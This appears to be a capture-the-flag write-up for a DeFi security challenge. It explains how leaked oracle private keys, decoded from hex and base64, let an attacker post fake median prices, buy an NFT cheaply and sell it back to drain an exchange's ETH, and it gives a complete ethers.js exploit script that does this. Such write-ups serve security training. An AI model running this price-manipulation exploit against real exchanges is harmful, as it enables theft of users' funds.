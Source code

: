 ## Explanation
1. From the response take first one and decode it from hex to text.
2. Then decode it from text to base64 you can see it looks like something familiar :)
3. These are the private keys for 2 of the trustful oracle.
4. So with this we can manipulate the price of the oracles.
5. We create function that allow to setMedainPrice as it the oracle is set based on medain price.
6. We setMedainPrice to 0.01 and buy an nft
7. Now we set the nft price to the balance of the address to get all ETH
8. We sellOne and then we returns the price back.
```javascript
// from the response of the web you can decode the hexadecimal to text, then the text to base64
        const key1 = "0xc678ef1aa456da65c6fc5861d44892cdfac0c6c8c2560bf0c9fbcdae2f4735a9";
        const key2 = '0x208242c40acdfa9ed889e685c23547acbed9befc60371e9875fbcd736340bb48';

        const orcale1 = new ethers.Wallet(key1,ethers.provider);
        const orcale2 = new ethers.Wallet(key2,ethers.provider);

        const orcl1Trust = this.oracle.connect(orcale1);
        const orcl2Trust = this.oracle.connect(orcale2);

        const setMedianPrice = async (amount) => {
           
            await orcl1Trust.postPrice("DVNFT", amount)
            await orcl2Trust.postPrice("DVNFT", amount)

        }

        // we make the price returned by the medain to 0.01
        await setMedianPrice(ethers.utils.parseEther("0.01"))

        const attackExchange = this.exchange.connect(attacker);
        const attackNFT = this.nftToken.connect(attacker);
        
        //attacker purchase the nft on 0.01
        let priceToSet = ethers.utils.parseEther("0.01");
        await attackExchange.buyOne({
            value: priceToSet
        })

        //setting the price of nft to exchange address
        const balOfExchange = await ethers.provider.getBalance(this.exchange.address);
        
        await setMedianPrice(balOfExchange)
        
        //selling it
        await attackNFT.approve(attackExchange.address,0)
        await attackExchange.sellOne(0)

        //setting orcale price back
        await setMedianPrice(INITIAL_NFT_PRICE)
```